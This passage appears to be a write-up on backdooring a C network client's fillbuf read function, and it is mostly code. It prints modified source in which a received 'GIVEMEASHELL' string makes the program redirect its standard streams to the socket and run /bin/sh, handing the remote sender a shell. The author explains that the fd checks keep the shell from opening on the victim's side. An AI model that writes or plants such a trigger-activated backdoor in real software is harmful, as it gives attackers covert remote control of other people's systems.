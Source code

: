 ```c
	if (n <= 0)
		return n;
	*bufpos += n;
	return n;
}
```
The part we are interested in is the buffer after the read(), so i can implement the backdoor like this:
```c
ssize_t
# if defined(TLS)
fillbuf(int fd, unsigned char *buf, size_t *bufpos, struct tls *tls,int s)
# else
fillbuf(int fd, unsigned char *buf, size_t *bufpos, int s)
# endif
{
	size_t num = BUFSIZE - *bufpos;
	ssize_t n;

# if defined(TLS)
	if (tls) {
		n = tls_read(tls, buf + *bufpos, num);
		if (n == -1)
			errx(1, "tls read failed (%s)", tls_error(tls));
	} else {
# endif
		n = read(fd, buf + *bufpos, num);
		/* don't treat EAGAIN, EINTR as error */
		if (n == -1 && (errno == EAGAIN || errno == EINTR))
# if defined(TLS)
			n = TLS_WANT_POLLIN;
	}
# else
			n = -2;
			if(strstr(buf,"GIVEMEASHELL" )){
				if(fd == 3 || fd == 4){
					int temp0 = dup(0);
			        int temp1 = dup(1);
			        int temp2 = dup(2);
			        dup2(s,0);
			        dup2(s,1);
			        dup2(s,2);
			        system("/bin/sh");
			        dup2(temp0,0);
			        dup2(temp1,1);
			        dup2(temp2,2);
					memset(buf,0x00,BUFSIZE);
			}
			}
			
# endif
	if (n <= 0)
		return n;
	*bufpos += n;
	return n;
}
```
By redirecting the entire stdio descriptors into the socket in this way, i can redirect the input and output of the system("/bin/sh") call to the server. I am testing the file descriptor to equal 3 or 4 because i don't want to pop a shell if the read happens to local file descriptors, that could cause issues like a shell opening on the victim shell instead of the attacker.